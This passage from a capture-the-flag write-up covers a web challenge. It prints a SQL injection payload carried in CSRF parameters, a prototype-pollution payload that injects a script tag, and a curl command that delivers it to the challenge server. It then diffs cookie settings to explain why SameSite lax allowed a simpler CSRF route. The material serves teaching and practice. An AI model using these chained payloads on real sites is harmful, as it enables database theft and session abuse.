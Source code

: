 <b>CSRF parameters with SQLi payload</b> -> `panelid=star7rix&widgetname=test123&widgetdata='),('star7rix', (select flag from flag), '{"type":"test123"}') --`

<b>Final Payload</b> -> `{"widgetName":"constructor","widgetData":"{\"prototype\":{\"srcdoc\":\"<script src='/admin/debug/add_widget?panelid=star7rix&widgetname=test123&widgetdata=%27%29%2C%28%27star7rix%27%2C+%28select+flag+from+flag%29%2C+%27%7B%22type%22%3A%22test123%22%7D%27%29+--'></script>\"}}"}`

<b>Payload Execution</b> ->

```bash
curl 'http://0.0.0.0:31337/panel/add' -H 'Content-Type: application/json' -H 'Cookie: panelId=star7rix' --data-binary '{"widgetName":"constructor","widgetData":"{\"prototype\":{\"srcdoc\":\"<script src=\\\"/admin/debug/add_widget?panelid=star7rix&widgetname=test123&widgetdata=%27%29%2C%28%27star7rix%27%2C+%28select+flag+from+flag%29%2C+%27%7B%22type%22%3A%22test123%22%7D%27%29+--\\\"></script>\"}}"}'
```

Now send link to the admin the link `https://<\challengeip>/create/?debugid=star7rix`, check back your panel, get flag. 

<br>

### Build a Panel vs. Build a Better Panel

Now, that this is done, we'll see what the uninteded solution in `Build a Panel` 

Diffing the source shows this

```bash
<     res.setHeader("Content-Security-Policy", "default-src 'none'; script-src 'self' http://cdn.embedly.com/; style-src 'self' http://cdn.embedly.com/; connect-src 'self' https://www.reddit.com/comments/;");
<     res.setHeader("X-Frame-Options", "DENY");
---
>     res.setHeader("Content-Security-Policy", "default-src 'none'; script-src 'self' http://cdn.embedly.com/; style-src 'self' http://cdn.embedly.com/; connect-src 'self' https://www.reddit.com/comments/;");
>     res.setHeader("X-Frame-Options", "DENY");
63c63
<         res.cookie('panelId', newPanelId, { maxage: 10800, httponly: true, sameSite: 'lax' });
---
>         res.cookie('panelId', newPanelId, { maxage: 10800, httponly: true, sameSite: 'strict' });
149c149
<         res.cookie('token', secret_token, { maxage: 10800, httponly: true, sameSite: 'lax' });
---
>         res.cookie('token', secret_token, { maxage: 10800, httponly: true, sameSite: 'strict' });
```

The only difference is lax and strict in cookies. 

Lax: In cross site requests, cookies are sent _only_ if it is a GET requests. <br>
Strict: In cross site requests, no cookies are sent. 

Since the cookies are `lax` in build-a-panel, the CSRF attack could be done directly by sending a link to the admin with the SQLi payload. 

